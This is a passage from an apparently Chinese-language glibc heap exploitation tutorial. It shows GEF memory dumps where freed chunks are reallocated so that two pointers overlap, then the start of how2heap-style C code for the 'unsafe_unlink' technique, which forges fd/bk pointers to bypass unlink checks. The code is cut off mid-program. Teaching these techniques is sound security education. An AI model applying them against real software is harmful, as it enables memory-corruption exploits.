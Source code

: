 第一次 malloc，chunk 将从 fastbins 中取出：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk p1 [be freed], chunk p4
0x602010:	0x0043434343434343	0x00007ffff7dd1b88
0x602020:	0x0000000000000020	0x0000000000000020  <-- chunk p2
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000411  <-- chunk p3
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10] 0x00
gef➤  heap bins small 
[ Small Bins for arena 'main_arena' ]
[+] small_bins[1]: fw=0x602000, bk=0x602000
 →   Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)
[+] Found 1 chunks in 1 small non-empty bins.
```
第二次 malloc，chunk 从 small bins 中取出：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk p4, chunk p5
0x602010:	0x4444444444444444	0x00007ffff7dd1b00
0x602020:	0x0000000000000020	0x0000000000000021  <-- chunk p2
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000411  <-- chunk p3
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000
```
chunk p4 和 p5 在同一位置。

#### unsafe_unlink
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

uint64_t *chunk0_ptr;

int main() {
    int malloc_size = 0x80; // not fastbins
    int header_size = 2;

    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
    fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
    fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

    // pass this check: (P->fd->bk != P || P->bk->fd != P) == False
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    fprintf(stderr, "Fake chunk fd: %p\n", (void*) chunk0_ptr[2]);
    fprintf(stderr, "Fake chunk bk: %p\n\n", (void*) chunk0_ptr[3]);
    // pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False
    // chunk0_ptr[1] = 0x0; // or 0x8, 0x80

    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    chunk1_hdr[0] = malloc_size;
    chunk1_hdr[1] &= ~1;

    // deal with tcache
```